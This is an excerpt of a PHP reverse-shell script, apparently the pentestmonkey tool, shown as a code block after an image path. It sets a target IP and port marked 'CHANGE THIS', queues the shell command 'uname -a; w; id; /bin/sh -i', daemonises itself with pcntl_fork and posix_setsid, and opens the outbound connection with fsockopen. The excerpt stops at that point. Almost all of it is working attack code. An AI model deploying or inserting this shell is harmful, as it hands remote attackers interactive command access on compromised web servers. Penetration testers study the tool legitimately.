 ```php
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.37.11';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```